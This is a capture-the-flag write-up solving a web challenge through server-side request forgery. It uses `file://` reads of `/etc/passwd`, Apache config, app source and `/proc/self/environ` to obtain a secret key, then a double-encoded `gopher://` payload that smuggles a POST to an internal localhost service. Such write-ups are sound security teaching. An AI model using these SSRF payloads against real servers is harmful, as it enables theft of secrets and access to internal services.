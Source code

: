 ## Description

We remade our club organization website. Check it out.

## Solution

let's visit the website :

![mainpage](images/mainpage.png)

there is nothing interesting there, if we check the source html of the page, we find this link to a `javascript` file :

![src](images/src.png)

when we click on it we get this js code :

```js
function myFunc(eventObj) {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function () {
      if (this.readyState == 4 && this.status == 200) {
        document.getElementById("content").innerHTML = xhttp.responseText;
      }
    };
    xhttp.open("POST", '/request');
    xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhttp.send("service=" + this.attributes.link.value);

  }

  var dep = document.getElementsByClassName('department');
  for (var i = 0; i < dep.length; i++) {
    dep[i].addEventListener('click', myFunc);
  }
```

so there is an endpoint `/request` that accepts a POST request with the parameter `service` that takes the value of a URL.

let's request that endpoint on burpsuite :

![burp](images/burp.png)

interesting, we might have an SSRF here, but before that let's try something else.

since this will accept any link, why we don't try to grab local files using `file://` which is a URI (Uniform Resource Identifier) scheme that is used to indicate that the referenced resource is a local file.

let's try to read the `/etc/passwd` file :

![passwd](images/passwd.png)

we got the content of the file, great, now let's check some sensitive stuff.

we know that this server is running `apache2`, the common path to the apache configuration is `/etc/apache2/sites-enabled/000-default.conf`, let's try to read that :

![conf](images/conf.png)

we got the paths to some internal apps!

the interesting one is `secret-service`, which is located in `/var/www/secret-service/`, making and educated guess, we try to read the source code of that app in `/var/www/secret-service/app.py` :

![source](images/source.png)

and we got it, let's place it here for better visibility :

```python
from flask import Flask, render_template, request, jsonify
import os
from dotenv import load_dotenv

app = Flask(__name__)

load_dotenv()
SECRET_KEY = os.getenv('SECRET_KEY')

flag = os.popen("/flag").read()

@app.route("/flag", methods=["POST"])
def flag():
    try:
        data = request.get_json()
        secret = data.get('secret')
        if secret == SECRET_KEY:
            flag = os.popen("/flag").read()
            return jsonify({'success': True, 'flag': flag})
        else:
            return jsonify({'success': False, 'error': 'Invalid secret'})
    except Exception as e:
        return jsonify({'success': False, 'error': "Something Went wrong"})



@app.route("/flag", methods=["GET"])
def test():
    return "you can test your GET payloads here"


if __name__ == "__main__":
    app.run(port=5000)
```

(before continuing, you may ask why we don't just read the flag since it's placed in that app's web root dir, i tried that but it didn't work cause probably the file is owned by root and www-data has no read permission on it.)

okey that's interesting, so this app has an endpoint `/flag`, if we send a POST request to that endpoint, it will check for the post data that has to be in json, the data should contain a key named `secret` with it's value that is placed in the `SECRET_KEY` environment variable, if all goes well we get the flag.

we have 2 problems, let's start with the first.

the first problem is we don't have the KEY, but since it's in an environment variable, we can check the `/proc/self/environ` file which holds the environment variables of our process :

![env](images/env.png)

we got the key.

the last problem is how are we gonna send a POST request from this parameter, we need to find a way to send this request :

```
POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

this meets all the endpoint's conditions to give us the flag but the problem is sending it.

this is where `gopher` comes in play, we can actually send http requests and specially `http POST requests` using the `gopher://` protocol, you can learn more about how to use this technique [here](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630).

so following the blog, if we want to send the request we mentioned earlier, we would send something like this using gopher :

```
gopher://127.0.0.1:5000/_POST%20%2Fflag%20HTTP%2F1.1%0AContent-Type%3A%20application%2Fjson%0AContent-Length%3A%2046%0A%0A%7B%22secret%22%3A%22b7bb70a3b3c95f570a8d31ece41bf7c5%22%7D%0A
```

let's URL decode that to easily read it :

```
gopher://127.0.0.1:5000/_POST /flag HTTP/1.1
Content-Type: application/json
Content-Length: 46

{"secret":"b7bb70a3b3c95f570a8d31ece41bf7c5"}
```

we see that we met all the conditions, but when we send it we get this error :

![error](images/error.png)

hmm, may be this is caused by encoding, to play safe , let's also encode the `%` characters that are responsible for URL encoding, so we replace all occurrence of `%` to `%25`, and the URL becomes :

```
gopher://127.0.0.1:5000/_POST%2520%252Fflag%2520HTTP%252F1.1%250AContent-Type%253A%2520application%252Fjson%250AContent-Length%253A%252046%250A%250A%257B%2522secret%2522%253A%2522b7bb70a3b3c95f570a8d31ece41bf7c5%2522%257D%250A
```

let's send that :

![flag](images/flag.png)

- flag: `shellmates{go_go_go_GoOOOPHER}`
